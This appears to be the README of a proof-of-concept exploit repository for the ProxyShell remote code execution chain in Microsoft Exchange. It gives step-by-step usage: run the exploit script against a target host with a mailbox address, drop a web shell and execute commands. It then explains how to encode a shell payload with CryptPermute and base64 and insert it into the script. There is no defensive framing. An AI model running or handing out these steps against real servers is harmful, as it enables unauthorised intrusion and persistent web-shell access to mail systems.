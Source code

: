 # proxyshell-poc

## base usage
1. py -3 proxyshell_rce.py -u ip|domain -e user@domain.com
2. dropshell
3. whoami

## generate CryptPermute content
1. execute `CryptPermute.exe shell.txt`, generate file `poc`.
2. base64 `poc` file.
3. Replace the contents of line 314 of the `proxyshell.py` file:
```
<t:Content>base64 `poc` file string</t:Content>
```
